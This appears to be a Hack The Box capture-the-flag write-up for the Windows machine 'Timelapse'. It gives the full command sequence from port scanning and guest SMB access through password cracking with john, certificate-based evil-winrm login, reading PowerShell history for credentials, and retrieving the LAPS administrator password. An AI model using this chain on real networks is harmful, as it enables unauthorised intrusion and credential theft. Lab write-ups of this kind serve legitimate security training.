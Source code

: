 ```yaml
---
date: 2025-03-15
categories: [Windows, Easy, AD]
---
```


![Timelapse](https://labs.hackthebox.com/storage/avatars/bae443f73a706fc8eebc6fb740128295.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [ctrlzero](https://app.hackthebox.com/users/168546)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Windows   |

---







- I start with a scan of the open ports and I continue with a scan of the versions and technologies that are running on the open ports that we have found
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.152 -oG scan
	/opt/extractports scan
	nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49667,49673,49674,49695,49727 -sCV -Pn 10.10.11.152 -oN ports
	```

	![image](https://github.com/user-attachments/assets/fcdafced-0d36-44ad-bbcf-931b7a492c38)

- I found the domains `dc01.timelapse.htb` and `timelapse.htb`, I added it to the `hosts` file
- I begin by listing the resources shared by smb using null credentials. They allow me to observe that I have reading permissions on the “Shares” folder. Inside it I find a zip file. I download it and see that it requires a password to extract its contents.
	
	```python
	netexec smb 10.10.11.152 -u Guest -p "" --shares
	smbclient -U 'Guest' //10.10.11.152/Shares
	```

	![image](https://github.com/user-attachments/assets/c0d81453-cde9-4e5b-b2c8-aab346fbc1fc)

- I extract the hash and with john I get the password to extract the files.
	
	```python
	zip2john winrm_backup.zip  > ziphash  
	john -w=/usr/share/wordlists/rockyou.txt ziphash
	```
	
	![image](https://github.com/user-attachments/assets/fbb2c0a6-860f-4f6a-b9f7-cc6bb8114ef0)

- I manage to extract a .pfx file that is password protected. I extract the hash and again with john I get to see the password of the file.
	
	```python
	pfx2john legacyy_dev_auth.pfx > hashpfx
	john -w=/usr/share/wordlists/rockyou.txt hashpfx 
	```
	
  ![image](https://github.com/user-attachments/assets/f740ee9c-7522-44d5-9d54-7e8e0a564af3)

- At this point I can extract the SSL certificate in PKCS#12 format and the private key.
	
	```python
	openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out key.pem
	openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
	```

- With these files I can use them to connect via winrm to the system. I get access and get the first flag.
	
	```python
	evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S -r timelapse.htb
	```
	
	![image](https://github.com/user-attachments/assets/26d9454b-1c6c-4917-adb5-43728a16b3d8)
	
- I list the system thanks to [Sharphound](https://github.com/SpecterOps/SharpHound/releases/tag/v1.1.0) and then look at potential privilege escalation paths with bloodhound. I collect the information but I don't observe anything by relieving.

```python
.\SharpHound.exe -c All --zipfilename info
```

- I decide to consult the history of executed powrshell commands and inside it I find the credentials of the user svc_deploy. I validate them with netexec and confirm that they are correct.

	```python
	foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
	```

	![image](https://github.com/user-attachments/assets/a6e0221d-9fc4-4838-9130-18075c32ca6d)

- In the first part of the recognition we have seen that the system has port 5986 open and thanks to this we can connect to the system through WINRM indicating that we want to use SSL. 
	
	```python
	evil-winrm -S -i 10.10.11.152 -u svc_deploy -p 'E3XXXXXXXXXXXXXXXXXuaV'
	```

- Once inside the system we consult the information related to this user and we observe that it belongs to the group LAPS_Readers, “Local Administrator Password Solution” (LAPS). This group is used to manage the passwords of the DC computers. We can retrieve the administrator password. 

	![image](https://github.com/user-attachments/assets/0191c7fa-7455-46d3-aa4e-095d5026374a)

- To recover the password we can make a query on the Active Directory computer. [info](https://exploit-notes.hdks.org/exploit/windows/active-directory/laps-pentesting/)

	```python
	<active-directory-computer-name> => (Get-ADComputer -Identity $env:COMPUTERNAME).Name
	
	#Get-ADComputer -Identity '<active-directory-computer-name>' -property 'ms-mcs-admpwd'
	Get-ADComputer -Identity 'DC01' -property 'ms-mcs-admpwd'
	```

	![image](https://github.com/user-attachments/assets/db84c907-8fa5-41fa-b02d-37d571e60d10)

- Another way to extract the LAPS password would be through netexec.
	
	```python
	netexec smb 10.10.11.152 -u svc_deploy -p 'E3XXXXXXXXXXXXXXXXXuaV' --laps Administrator
	```

- Having the password we can connect to the system as administrator and we can read the second flag.

	```python
	evil-winrm -S -i 10.10.11.152 -u administrator -p '6JXXXXXXXXXXXp5'
	```

	![image](https://github.com/user-attachments/assets/9cb3bbfc-3612-44da-b0a4-e6bfa478842a)

